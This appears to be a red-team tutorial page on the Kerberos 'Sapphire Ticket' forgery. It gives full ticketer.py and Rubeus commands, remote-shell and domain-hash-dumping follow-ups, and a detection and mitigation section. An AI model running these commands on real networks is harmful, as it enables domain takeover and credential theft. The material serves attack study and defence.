

## What Is a Sapphire Ticket?

A Sapphire Ticket is the most operationally stealthy of the forged-ticket family. Like a Diamond Ticket, it starts with a real AS exchange. But where a Diamond Ticket modifies the PAC manually (claiming group memberships the attacker chooses), a Sapphire Ticket fetches the **real PAC** of a privileged user directly from the KDC, then embeds that genuine PAC into the forged ticket.

The result: a ticket whose PAC is byte-for-byte identical to what the KDC would have issued legitimately. Any detection that works by comparing the PAC contents against Active Directory — the method that catches Diamond Tickets — finds nothing to flag.

| | Golden | Diamond | Sapphire |
|---|---|---|---|
| Real AS exchange | ✗ | ✓ | ✓ |
| Normal ticket lifetime | ✗ | ✓ | ✓ |
| PAC from AD | ✗ | ✗ | ✓ |
| PAC comparison detectable | ✓ | ✓ | ✗ |

## How Does a Sapphire Ticket Attack Work?

The key mechanism is **[S4U2Self](/docs/kerberos/delegation/s4u2self-abuse/)** (Service-for-User-to-Self) — a Kerberos extension that allows a service to request a [Service Ticket](/docs/kerberos/tickets/) for any user to itself, without that user's involvement. It was designed to support services that receive non-Kerberos authentication (like NTLM, or a web application where the user logs in through a username/password form) and need to obtain a Kerberos ticket on the user's behalf to then pass to a backend service.

An attacker with the `krbtgt` hash can use S4U2Self to ask the KDC to issue a Service Ticket that impersonates Administrator. The KDC issues it — and that ticket contains Administrator's real, freshly generated PAC pulled directly from Active Directory. The attacker extracts that PAC and transplants it into their own forged TGT.



## What Does a Sapphire Ticket Attack Require?

- **`krbtgt` [NTLM hash](/docs/redteam/credential-dumping/) or AES256 key** — required to forge the TGT that carries the transplanted PAC.
- **Valid domain credentials** — any domain account, used to establish the initial AS exchange and perform the S4U2Self request.
- **Domain SID** — the `S-1-5-21-<three numbers>` identifier for the domain.
- **Target username** — the privileged user whose real PAC you want to fetch (typically `Administrator`).

Getting the `krbtgt` hash is identical to Golden and Diamond Ticket — use DCSync. Refer to the [Golden Ticket note](/docs/kerberos/ticket-attacks/golden-ticket/) for the full walkthrough.

## Forging the Ticket


  
`ticketer.py` with the `-request` and `-self` flags performs the full Sapphire Ticket flow: it authenticates as the specified user, performs the S4U2Self request to fetch the target's real PAC, and embeds it into the forged ticket. The `\` at the end of each line is bash's line continuation character — the entire block runs as one command.

```bash
ticketer.py \
  -request \
  -self \
  -user jdoe \
  -password 'Password123!' \
  -nthash 819af826bb148e603acb0f33d17632f8 \
  -domain-sid S-1-5-21-3623811015-3361044348-30300820 \
  -domain radiant.local \
  -impersonate Administrator
```

The flags:
- `-request` — triggers the Diamond/Sapphire flow: authenticates as the specified user to get a real TGT from the KDC
- `-self` — activates the S4U2Self step, fetching the real PAC for the impersonated user rather than building one manually
- `-user` / `-password` — the real domain account used to get the initial TGT and perform S4U2Self
- `-nthash` — the `krbtgt` NT hash, used to decrypt and re-sign the final ticket
- `-impersonate` — the privileged user whose real PAC to fetch (the username that will appear in the final ticket)

``` {linenos=table}
Impacket v0.12.0 - Copyright Fortra, LLC

[*] Getting TGT for user
[*] Performing S4U2Self to get a forwardable ticket for jdoe
 ("for jdoe" means jdoe is the account performing the S4U2Self action — not the impersonation target)
[*] Getting S4U2Self ticket for Administrator
 (this line confirms the result: a ticket impersonating Administrator, containing their real PAC)
[*] Got PAC for Administrator from S4U2Self ticket
[*] Decrypting ticket using supplied credentials
[*] Customizing ticket for radiant.local/Administrator
[*]     PAC_LOGON_INFO
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*] Saving ticket in Administrator.ccache
```

To use an NT hash instead of a plaintext password for the requesting account — same two-hash pattern as Diamond Ticket (two different hashes for two different purposes):

```bash
ticketer.py \
  -request \
  -self \
  -user jdoe \
  -hashes :a87f3a337d73085c45f9416be5787d86 \
  -nthash 819af826bb148e603acb0f33d17632f8 \
  -domain-sid S-1-5-21-3623811015-3361044348-30300820 \
  -domain radiant.local \
  -impersonate Administrator
```

- `-hashes :a87f3a337d73085c45f9416be5787d86` — **jdoe's** NT hash, used to authenticate as jdoe and request the real TGT
- `-nthash 819af826bb148e603acb0f33d17632f8` — the **`krbtgt`** NT hash, used to decrypt and re-sign the final forged ticket
  
  
**Rubeus** has a dedicated `sapphire` action that handles the full flow in one command. The backtick `` ` `` at the end of each line is PowerShell's line continuation character:

```powershell
.\Rubeus.exe sapphire `
  /krbkey:61a35e4c08e5b5cdbe6990dce99ef66a... `
  /enctype:aes `
  /user:jdoe `
  /password:Password123! `
  /domain:radiant.local `
  /sid:S-1-5-21-3623811015-3361044348-30300820 `
  /dc:dc01.radiant.local `
  /impersonateuser:Administrator `
  /ptt
```

The flags:
- `/krbkey` — the `krbtgt` AES256 key used to decrypt and re-sign the final ticket
- `/enctype:aes` — use AES for both the initial TGT request and the final ticket encryption. Preferred over RC4 because modern domains default to AES, and an RC4 ticket on an AES-capable domain stands out
- `/user` / `/password` — the real domain account used to get the initial TGT and to perform S4U2Self
- `/dc` — the domain controller to contact for the initial TGT request and S4U2Self
- `/impersonateuser` — the privileged user whose real PAC to fetch via S4U2Self
- `/ptt` — inject the final ticket directly into the current session

``` {linenos=table}
[*] Action: Sapphire Ticket

[*] Requesting base TGT...
[+] TGT request successful!

[*] Performing S4U2Self to obtain a service ticket for Administrator
[+] S4U2Self successful!

[*] Extracting PAC from S4U2Self ticket
[*] Building Sapphire ticket using real PAC

[*] Forging Kerberos ticket...
[+] Sapphire ticket successfully forged!
[*] Ticket successfully imported!
```

**Using `/tgtdeleg` to avoid explicit credentials**

Same as Diamond Ticket — if you already have a session on a domain-joined machine, Rubeus can use the machine's existing Kerberos tickets instead of typing credentials:

```powershell
.\Rubeus.exe sapphire `
  /krbkey:61a35e4c08e5b5cdbe6990dce99ef66a... `
  /enctype:aes `
  /tgtdeleg `
  /domain:radiant.local `
  /sid:S-1-5-21-3623811015-3361044348-30300820 `
  /impersonateuser:Administrator `
  /ptt
```
  


## Using the Ticket

Identical to [Golden](/docs/kerberos/ticket-attacks/golden-ticket/) and [Diamond](/docs/kerberos/ticket-attacks/diamond-ticket/) Ticket — the forged ticket is a TGT, inject and use with any Kerberos-aware tool.


  
```bash
export KRB5CCNAME=/tmp/Administrator.ccache

# Remote shell
psexec.py radiant.local/Administrator@dc01.radiant.local -k -no-pass

# File shares
smbclient.py radiant.local/Administrator@fileserver.radiant.local -k -no-pass

# Dump all domain hashes
secretsdump.py radiant.local/Administrator@dc01.radiant.local -k -no-pass
```
  
  
If you used `/ptt`, the ticket is already in your session:

```powershell
# C$ is a hidden Windows administrative share exposing the entire C: drive —
# automatically created on every Windows machine, only accessible to administrators
dir \\dc01.radiant.local\C$

# Enter-PSSession opens an interactive PowerShell shell on the remote machine,
# similar to SSH — authenticated via the injected Kerberos ticket
Enter-PSSession -ComputerName dc01.radiant.local
```

If you saved to disk, inject first:

```powershell
.\Rubeus.exe ptt /ticket:C:\Temp\sapphire.kirbi
```
  


## Verification


  
```bash
klist
```

```
Ticket cache: FILE:/tmp/Administrator.ccache
Default principal: Administrator@RADIANT.LOCAL

Valid starting       Expires              Service principal
03/11/2026 09:00:00  03/11/2026 19:00:00  krbtgt/RADIANT.LOCAL@RADIANT.LOCAL
```

Same as Diamond Ticket: expiry is 10 hours out, not 10 years — because the base ticket came from the KDC with a real lifetime. The distinction from legitimate traffic is not visible in `klist` output alone. The only visibility is at the DC level, in the S4U2Self Event ID 4769 that fired during forging.
  
  
```powershell
klist
```

``` {linenos=table}
Current LogonId is 0:0x7a3b2

Cached Tickets: (1)

#0>     Client: Administrator @ RADIANT.LOCAL
        Server: krbtgt/RADIANT.LOCAL @ RADIANT.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent
        Start Time: 3/11/2026 9:00:00 (local)
        End Time:   3/11/2026 19:00:00 (local)
        Renew Time: 3/18/2026 9:00:00 (local)
```

Normal 10-hour end time and 7-day renew time — identical to what a legitimately issued TGT for Administrator would look like. Unlike Golden Ticket, no anomalous lifetime to flag.
  


## Operational Notes

**Requires live KDC contact twice.** The initial AS-REQ needs the DC, and the S4U2Self request also goes to the KDC. Both require network access to a domain controller at forging time.

**S4U2Self produces real PAC content.** The PAC fetched via S4U2Self is the same PAC the KDC would embed in a legitimate ticket for Administrator. It reflects Administrator's actual current group memberships in Active Directory at the moment of the request. If Administrator is added to or removed from a group, the next Sapphire Ticket request will reflect that change automatically.

**The requesting account needs S4U2Self permission.** S4U2Self is not available to all domain accounts by default. It typically requires the requesting account to have a Service Principal Name ([SPN](/docs/kerberos/kerberoast/)) registered — an SPN is a unique identifier tied to a service account that tells Kerberos which account is responsible for a given service (like `cifs/fileserver.radiant.local`). The S4U2Self mechanism was designed for service accounts, which always have SPNs. In practice, this usually means you need to either use a machine account (which has SPNs automatically) or register an SPN on the account you control. The `/tgtdeleg` approach in Rubeus handles this by using the machine account's Kerberos context directly.

**Ticket lifetime is real and cannot be extended.** Same as Diamond Ticket — the base TGT came from the KDC with a 10-hour lifetime. Renewing requires re-running the attack.

**AES is strongly preferred.** Same reasoning as Diamond Ticket — RC4 on an AES-capable domain is anomalous and detectable.

## How Do You Detect and Defend Against Sapphire Tickets?

### What Logs Does a Sapphire Ticket Generate?

- **Event ID 4768** at the DC — real AS-REQ from the requesting account (`jdoe`).
- **Event ID 4769** at the DC — the S4U2Self request itself generates a service ticket request event. The source account will be the requesting account performing S4U2Self, and the target will be the privileged user (`Administrator`). This is the most distinctive log entry for Sapphire Tickets.
- **Event ID 4769 again** — when the final modified TGT is presented to request service tickets for actual target services (CIFS, HOST, etc.).
- **Event ID 4624** at target service hosts — logon events for the impersonated user.

### What Logs Does a Sapphire Ticket Not Generate?

- **The PAC transplant itself** — extracting the PAC from the S4U2Self ticket and embedding it into the TGT happens entirely on the attacker's machine. No event fires.
- **No "impossible session" pattern** — real AS-REQ happened, real 4768 fired.
- **No PAC discrepancy** — because the PAC is genuinely from Active Directory, any tool that compares ticket PAC contents against LDAP data finds an exact match. This defeats the primary detection used against Diamond Tickets.

The S4U2Self 4769 event — a non-service account (`jdoe`) requesting a service ticket that impersonates a highly privileged user (`Administrator`) — is the most unusual indicator and is rare in legitimate operations.

### How Do You Mitigate Sapphire Tickets?

- **Protect the `krbtgt` hash** — same as Golden and Diamond Ticket. Without the krbtgt key, the final PAC transplant and re-signing cannot happen.
- **Monitor S4U2Self requests (Event ID 4769)** — look for 4769 events where the requesting account is not a known service account and the target user is a privileged account like Administrator or Domain Admins members. In a healthy environment, S4U2Self is only used by services with registered SPNs.
- **Rotate `krbtgt` twice** — invalidates the key used to re-sign the final ticket.
- **Restrict SPN registration** — an SPN is registered on an account by writing to the `servicePrincipalName` attribute in AD, typically using the `setspn` command or AD tools. Limiting which users and groups can write this attribute (controlled via AD ACLs) reduces the set of accounts that can register SPNs and thereby gain S4U2Self capability. Accounts without SPNs typically cannot perform S4U2Self.
- **Enforce AES-only Kerberos** — RC4 Sapphire Tickets stand out in AES-only environments.

### Detection Tools

- **Microsoft Defender for Identity (MDI)** — Sapphire Ticket detection is more challenging for MDI than Diamond Ticket because the PAC is genuine. MDI may still flag the unusual S4U2Self pattern if `jdoe` is not a known service account requesting elevated impersonation.
- **Microsoft Sentinel / Splunk** — write a rule targeting Event ID 4769 where `SubjectUserName` is not a known service account and the `TargetUserName` (the user being impersonated) is a privileged account like `Administrator` or a Domain Admin. An S4U2Self request from a regular user account impersonating a privileged user is rare in legitimate operations and worth alerting on.
- **Zeek / network monitoring** — same DRSUAPI traffic patterns for DCSync detection as Golden and Diamond Ticket. Catching the hash extraction is the earliest intervention point.
- **CrowdStrike / [EDR](/docs/redteam/defender-bypass/)** — behavioral detection on Rubeus `sapphire` action and the `ticketer.py -request -self` pattern. Catching the forging step before the ticket is used is the most reliable control.

## References

### Original Research
- Charlie Clark (Semperis) — "Sapphire Tickets" (2022); introduced the technique of using S4U2Self to obtain a genuine PAC from Active Directory, defeating PAC-comparison-based Diamond Ticket detection
- S4U2Self (Service-for-User-to-Self) — Kerberos [constrained delegation](/docs/kerberos/delegation/constrained-delegation/) extension defined in RFC 4120 and MS-SFU, repurposed here to extract a privileged user's real PAC from the KDC

### Tools
- [Impacket](https://github.com/fortra/impacket) — Python library and scripts for network protocols, including `ticketer.py -request -self` (Sapphire Ticket flow) and `secretsdump.py` (krbtgt hash extraction)
- [Rubeus](https://github.com/GhostPack/Rubeus) — C# Kerberos toolkit (`sapphire` action, `/tgtdeleg`)
- [mimikatz](https://github.com/gentilkiwi/mimikatz) — Windows credential tool (`lsadump::dcsync` for krbtgt hash extraction)

### Specifications
- [RFC 4120 — The Kerberos Network Authentication Service (V5)](https://www.rfc-editor.org/rfc/rfc4120)
- [MS-PAC — Privilege Attribute Certificate Data Structure](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-pac/)
- [MS-SFU — Kerberos Protocol Extensions: Service for User and Constrained Delegation](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/)
